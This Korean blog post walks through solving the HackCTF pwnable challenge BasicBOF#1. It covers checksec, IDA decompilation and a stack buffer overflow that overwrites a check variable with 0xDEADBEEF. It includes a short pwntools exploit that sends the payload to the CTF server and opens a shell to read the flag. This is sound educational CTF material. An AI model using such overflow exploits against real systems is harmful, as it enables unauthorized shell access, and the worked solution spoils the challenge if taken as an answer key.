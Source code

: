 - 오늘은 HackCTF의 Pwnable문제인 BasicBOF#1을 풀어보도록 하겠습니다.

![](https://images.velog.io/images/dsph9245/post/f8ee1bbd-fd8f-47a8-81af-8f3963ca81fe/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-15%20%EC%98%A4%EC%A0%84%202.27.46.png)

- 문제 서버를 확인하고 문제파일을 다운로드 해주겠습니다.

![](https://images.velog.io/images/dsph9245/post/15b5a3ce-f4fd-4561-b4c7-6618325b95ce/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-15%20%EC%98%A4%EC%A0%84%202.28.29.png)

- 제일 먼저 nc서버에 접속해보겠습니다.

- 실행을 시켜보면 입력한 값([buf])와 check를 출력합니다.

![](https://images.velog.io/images/dsph9245/post/ce1a9276-1450-4dc5-8e1f-466aa688363e/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-15%20%EC%98%A4%EC%A0%84%202.35.08.png)

![](https://images.velog.io/images/dsph9245/post/17db2ae8-d9b8-477e-a63f-651a7885e95b/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-15%20%EC%98%A4%EC%A0%84%202.46.43.png)

- 다음으로 checksec을 통해서 걸려있는 보호기법을 확인해보겠습니다.

- 보호 기법으로는 RELRO와 NX가 걸려 있네요

- RELRO 보호기법이란? : RELocation Read-Only의 줄임말이며, ELF바이너리 / 프로세스 데이터 섹션의 보안을 강화하는 일반적인 기술을 의미합니다.

- NX보호기법이란? : NX 비트를 활성화시켜서 스택 / 힙 영역의 실행 권한을 제거하여 쉘의 실행을 방지하는 기법입니다.

- 여기서 중요한 것은 NX보호기법입니다. (쉘을 실행시킬 수 없기 때문입니다.)

![](https://images.velog.io/images/dsph9245/post/004e1eb5-1ed9-4d14-9dc4-d4b405009c3e/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-15%20%EC%98%A4%EC%A0%84%203.07.13.png)

- 일단은 IDA를 이용해서 분석해주겠습니다!

- 그리고나서 MAIN을 봐줍니다.

![](https://images.velog.io/images/dsph9245/post/27d9a2b6-f262-4bec-bfbc-aa67a868ad9e/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%204.02.29.png)

- F5를 눌러서 C언어로 봐줍니다. 

![](https://images.velog.io/images/dsph9245/post/c04ca566-cf0e-49ee-b400-c8e76a9aa3a6/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%204.04.01.png)

- main코드에서 -559038737과 같은 값들을 'H'를 눌러서 16진수 형태로 변경해서 봐줍시다. 

![](https://images.velog.io/images/dsph9245/post/5741473a-abde-49a0-8c07-bf8e06091b2f/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%204.05.47.png)

- v5가 s보다 더 높은 주소를 가지고 있고 s에 45byte만큼 입력하는 것을 통해 v5의 값을 변경할 수 있습니다. fgets를 통해 v5의 값을 0xDEADBEEF로 바꿔주면 쉘을 딸 수 있을 것 같습니다. 

- 일단 제일 먼저 빅엔디안 방식인 0xDEADBEEF를 리틀엔디안으로 바꿔주겠습니다.

- 리틀엔디안으로 변환한 값은 \xef\xbe\xad\xde입니다.

- 이를 기반으로 exploit code를 작성해보겠습니다.

```
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3000)

payload = 'a' * 40 
payload += "\xef\xbe\xad\xde"

p.sendline(payload)
p.interactive()
```

- 익스를 실행해보겠습니다.

- 익스를 실행하면 다음과 같은 화면이 나오는데요

![](https://images.velog.io/images/dsph9245/post/84c2b47b-45a7-4915-b703-e6c87ed1be0f/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%205.08.45.png)

- ls를 입력해서 디렉터리 상에 있는 파일 목록을 확인해줍니다.

![](https://images.velog.io/images/dsph9245/post/8dc4e581-bb6d-432a-b2ab-e5fc9b63fcb9/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%205.09.13.png)

- flag 파일과 main 파일이 있네요

- cat 명령어를 사용해서 flag 파일 내부를 보면 플래그를 얻을 수 있습니다.

![](https://images.velog.io/images/dsph9245/post/7769bf3a-4afd-4335-8ed1-6695f8998460/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%205.09.24.png)

- 해당 플래그를 문제 서버에 제출해주면

![](https://images.velog.io/images/dsph9245/post/0428c979-cf40-478d-af3a-caa24157ead3/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%205.10.03.png)

- 정상적으로 solve가 되는 것을 확인하실 수 있습니다.

![](https://images.velog.io/images/dsph9245/post/70f97594-34ef-4d91-8c93-7e8d2e7df50d/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-09-23%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%205.10.08.png)
